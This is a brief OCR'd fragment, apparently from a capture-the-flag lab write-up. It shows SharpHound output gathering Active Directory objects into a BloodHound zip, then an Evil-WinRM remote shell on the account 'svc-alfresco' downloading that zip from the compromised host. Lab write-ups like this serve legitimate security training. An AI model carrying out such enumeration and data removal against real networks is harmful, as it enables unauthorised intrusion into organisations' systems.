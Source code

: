 [+] Pre-populating Domain Controller SIDS
Status: 0 objects finished (+0) -- Using 21 MB RAM
Status: 123 objects finished (+123 61.5)/s -- Using 28 MB RAM
Enumeration finished in 00:00:02.4275307
Compressing data to .\20210115014053_BloodHound.zip
You can upload this file directly to the UI

SharpHound Enumeration Completed at 1:40 AM on 1/15/2021! Happy Graphing!



*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> download 20210115014053_BloodHound.zip
Info: Downloading C:\Users\svc-alfresco\Documents\20210115014053_BloodHound.zip to 20210115014053_BloodHound.zip


                     
Info: Download successful!

![](2021-01-15-10-34-58.png)
